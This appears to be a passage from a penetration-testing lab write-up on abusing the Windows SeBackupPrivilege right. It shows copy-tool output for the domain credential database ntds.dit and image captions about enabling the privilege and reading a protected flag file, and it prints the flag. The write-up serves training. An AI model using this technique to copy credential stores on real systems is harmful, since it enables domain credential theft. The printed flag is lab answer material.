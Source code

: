 ```cmd-session
          New Dir          1    E:\Windows\NTDS\
100%        New File              16.0 m        ntds.dit

------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         1         0         0         0         0
   Files :         1         1         0         0         0         0
   Bytes :   16.00 m   16.00 m         0         0         0         0
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00


   Speed :           356962042 Bytes/sec.
   Speed :           20425.531 MegaBytes/min.
   Ended : Thursday, May 6, 2021 1:11:47 PM
```

## Assessment

**Leverage SeBackupPrivilege rights and obtain the flag located at c:\Users\Administrator\Desktop\SeBackupPrivilege\flag.txt**

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption><p>enable the privilege using Set-SeBackupPrivilege</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption><p>As seen we can traverse to the directory but unable to read the contents of the file.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (114).png" alt=""><figcaption><p>Car3ful_w1th_gr0up_m3mberSh1p!</p></figcaption></figure>
